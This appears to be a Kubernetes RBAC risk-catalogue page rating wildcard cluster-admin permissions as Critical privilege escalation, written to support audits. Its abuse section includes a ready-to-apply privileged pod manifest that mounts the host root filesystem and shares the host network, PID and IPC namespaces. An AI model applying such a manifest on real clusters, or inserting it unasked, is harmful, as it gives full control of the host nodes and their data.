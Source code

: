 ```yaml
---
id: 1060
title: "Wildcard permission on all resources cluster-wide (Cluster Admin)"
description: "Grants unrestricted, wildcard ('*') access to all API groups, resources, and verbs across the entire cluster. This is equivalent to full cluster administrator privileges, allowing complete control and compromise of the Kubernetes cluster."
category: Elevation of Privilege
risk_level: RiskLevelCritical
date: ""
---
```


## Overview

| Field         | Value                                                                                                                                                                 |
| ------------- | --------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| ID            | 1060                                                                                                                                                                  |
| Name          | Wildcard permission on all resources cluster-wide (Cluster Admin)                                                                                                     |
| Risk Category | Elevation of Privilege                                                                                                                                                |
| Risk Level    | {{< risk Critical >}}                                                                                                                                                 |
| Role Type     | ClusterRole                                                                                                                                                           |
| API Groups    | \*                                                                                                                                                                    |
| Resources     | \*                                                                                                                                                                    |
| Verbs         | \*                                                                                                                                                                    |
| Tags          | {{< tag "ClusterAdminAccess" >}} {{< tag "DenialOfService" >}} {{< tag "InformationDisclosure" >}} {{< tag "PrivilegeEscalation" >}} {{< tag "Spoofing" >}} (+2 more) |

## Description

Grants unrestricted, wildcard ('\*') access to all API groups, resources, and verbs across the entire cluster. This is equivalent to full cluster administrator privileges, allowing complete control and compromise of the Kubernetes cluster.

## Abuse Scenarios

1. List all resources across all namespaces (demonstrates broad read access).

```bash
kubectl get all --all-namespaces

```

2. Create a privileged pod with full host access (demonstrates full control).

```bash
kubectl create -n <namespace> -f - <<EOF
apiVersion: v1
kind: Pod
metadata:
  name: cluster-admin-pod
spec:
  hostNetwork: true
  hostPID: true
  hostIPC: true
  containers:
  - name: attacker
    image: busybox
    command: ["/bin/sh", "-c", "sleep infinity"]
    securityContext:
      privileged: true
    volumeMounts:
    - mountPath: /host
      name: host-root
  volumes:
  - name: host-root
    hostPath:
      path: /
EOF
# Example: kubectl create -n default -f - <<EOF ... EOF

```
